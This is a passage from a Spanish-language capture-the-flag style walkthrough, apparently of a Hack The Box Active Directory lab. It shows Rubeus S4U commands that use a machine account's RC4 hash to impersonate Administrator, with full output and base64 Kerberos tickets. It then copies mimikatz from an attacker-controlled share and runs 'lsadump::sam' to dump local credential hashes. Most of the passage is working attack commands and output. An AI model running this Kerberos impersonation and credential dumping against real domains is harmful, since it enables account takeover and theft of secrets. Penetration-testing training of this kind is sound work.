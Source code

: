 Para prevenir posibles problemas, añadiremos todas las direcciones de los ordenadores que forman parte del dominio htb.local al archivo hosts de nuestro sistema Windows.

Luego, regresando a PowerShell, utilizaremos Rubeus para especificar el hash del ordenador DEV$ suplantando al usuario Administrator. Al hacerlo, se nos importará un nuevo ticket.

```powershell
PS C:\Users\pc1\Desktop> .\Rubeus.exe s4u /user:DEV$ /rc4:01300a3009c7ae1af0ea216ebada48ad /impersonateuser:Administrator /altservice:http/dev.htb.local /domain:htb.local /dc:dc1.htb.local /self /ptt  

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: S4U

[*] Using rc4_hmac hash: 01300a3009c7ae1af0ea216ebada48ad
[*] Building AS-REQ (w/ preauth) for: 'htb.local\DEV$'
[*] Using domain controller: 192.168.3.203:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEqDCCBKSgAwIBBaEDAgEWooIDyjCCA8ZhggPCMIIDvqADAgEFoQsbCUhUQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJaHRiLmxvY2Fso4IDiDCCA4SgAwIBEqEDAgECooIDdgSCA3JKyHcUrYMJcYfs
      QxvIvmpxxBOfF22g1CmzCoOGGyB7AlV47xpLdnHpOCOuEbVyXp0lPo00JpROPl8dB7ecHXAaJeR2s6GP
      Pps2OS0FZyYUPaifSBm/ZPgaoADahq6D/PEpUDgGNFYeT6KDVja6SDJDrIFBRIW7+VWB6KTL0XLityM3
      7xSZDGtiWslaIPvNG7I2w0mXBKfAY4bDKBCxtMQUZTzk9EF8mBd1Kf1CLek/Lc/BqkvWofbY8MWnj4DA
      0DOCGr5olBHujVQ5rXNrwaNACn3Tfui2s2/pAXoFLvEqTC3j7SmbWRUndRplfXyesCoOrIo/cg6Nti75
      6++YWoU6vXIPcGCdJKcjhTtMszlB9R6wPhn2HoeSrWP17XsL+zxPwdKBHz6IbE9Q7OQzjFoGZCYuT4Os
      n36YJm9O3KnnwUv3TBUO4epeE8Qp6skJln8vHqWrsVC/VS85dmP31QzWmdGy1TN05T7Z/7poXGjZwhmG
      0wVoqQ+9gJV+DsLUvdl9A0UMUQdySfrKF5wA4uZmg+FEen+itP+Vd39uXCkGJqWxpH07LHMhsZW5zVHk
      lNJYKKglVcJVuOE7G/YgNg/e5yvt3Gg8dgSHYBna1EnUyPe7E1QDEFLJRKsee4Lve0amVErHUzRW94MV
      q3PIOL09hE4ZvcI0YsCMibAufegMZjzEFv1FoW70i+B+YLa6NcbBvuwVK8QdKmzdXbWXB10DAiaBYvCC
      d04m/KHTS0Utmi2llW2Ka6Pcs0cAHNJuAVkuAhZS6dAmvWJLlIkkYgOggKFVCPn0N2E1u4Z4EEp65hI5
      rBVsoBmXN9usCORL3ViQKB8NSLQ5y+RKfOKIWCxy/DWIawJqeiXQ/eRiMmeEKQfVpg4dWiDSa/LU44Gj
      KZcXabRyDQM4/yLPH3sllZB6PTya046RHOlyyyyBWO+NaqGoMUG7ZTUcTzw+F/OUtB8GlfSr+0yKq1R9
      RiHBEtRPbEhzb20X6MLsi7M1ESa1lCmfTwx58ZD8lfr8ZctSec33EsWATr/adAnxPxPSez9T587KVq6/
      z1uRfZn/O2/lNPtcUxERlEhpY2/+qBZTFQuB6lqV4S+ewtLi6KCtmOdPeqsyBz+sJSJkUdWh0dL4i6+o
      LAoseAmPd8vRyNlHWGnS4ArqnoCUt/drUSXIalwmo0ujgckwgcagAwIBAKKBvgSBu32BuDCBtaCBsjCB
      rzCBrKAbMBmgAwIBF6ESBBBw/o7YqKq6gSfGuv70LH4poQsbCUhUQi5MT0NBTKIRMA+gAwIBAaEIMAYb
      BERFViSjBwMFAEDhAAClERgPMjAyMzA0MzAwMzI4MDFaphEYDzIwMjMwNDMwMTMyODAxWqcRGA8yMDIz
      MDUwNzAzMjgwMVqoCxsJSFRCLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0GwlodGIubG9jYWw=


[*] Action: S4U

[*] Building S4U2self request for: 'DEV$@HTB.LOCAL'
[*] Using domain controller: dc1.htb.local (192.168.3.203)
[*] Sending S4U2self request to 192.168.3.203:88
[+] S4U2self success!
[*] Substituting alternative service name 'http/dev.htb.local'
[*] Got a TGS for 'administrator' to 'http@HTB.LOCAL'
[*] base64(ticket.kirbi):

      doIFXjCCBVqgAwIBBaEDAgEWooIEZTCCBGFhggRdMIIEWaADAgEFoQsbCUhUQi5MT0NBTKIgMB6gAwIB
      AaEXMBUbBGh0dHAbDWRldi5odGIubG9jYWyjggQhMIIEHaADAgESoQMCAQeiggQPBIIEC54azxOCgCG1
      w96Bc6TrM/dBqTSNvwfFAupxumsLYdMU6sTVcsB0nFBfhGwvFrjzw/Hl8nNnWjGYq5T7k68v75Ha3vIi
      2hv/2lMwOmAL/+3s0bywlsIB1NOVQojLTVp/DvVrT6a/b35kSUE40FxEjjj9Bwqps8L+hYoKX5MfSZZN
      Kv5vApyYOTiTqXEOf9ZraY2MidY3HjhHcWYSXOwaDaN4BeuQlzsR2hbuttw6kudQUw0duibXKNg3dz6D
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>